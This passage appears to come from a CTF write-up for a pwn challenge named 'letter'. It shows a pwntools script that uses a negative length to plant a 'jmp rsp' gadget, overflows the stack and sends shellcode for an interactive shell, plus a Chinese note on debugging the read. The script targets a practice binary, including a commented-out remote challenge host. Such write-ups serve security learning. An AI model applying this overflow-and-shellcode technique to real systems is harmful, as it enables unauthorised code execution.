 ```python
p=process('./letter')
argv=list()
argv.append("nc")
argv.append("182.92.108.71")
argv.append("31305")
#p=remote(host='182.92.108.71',port=31305)
#p=process(argv=argv)
gdb.attach(p,'b *main+0x9c')
p.recvuntil('how much character do you want to send?\n')
l_length=0xffe4 #0x1c00
l_length=(-l_length)
p.send('-6913'+'a'*(0x10-5-2)+'\xff\xe4') #ffe4 jmp rsp
#p.sendline(cyclic(0x100))
#p.sendline(cyclic(0x100)) #36
# p.sendline()
leave_addr=0x60108c
leave_addr_data=int.to_bytes(leave_addr,6,byteorder='little',signed=False)
buf_addr=0x7fffffffdab0
buf_addr_data=int.to_bytes(buf_addr,12,byteorder='little',signed=False)
msg=b'b'*24+leave_addr_data+b'\x00'*2
#0x7fffffffdab0 buf for no aslr
p.send(msg)
#p.sendline(cyclic(0x100))
p.sendline(shellcode)
#0x400a36 leave
#p.sendline(asm(payload))
#0x7ffd014abbb0 0x7ffe80b42048
p.interactive()
```

一路n下来到read后，可以看见length已经可以被解析成jmp rsp了

<img src="hgame_week1_pwn_letter_after_second_read.png" style="zoom:60%;" />
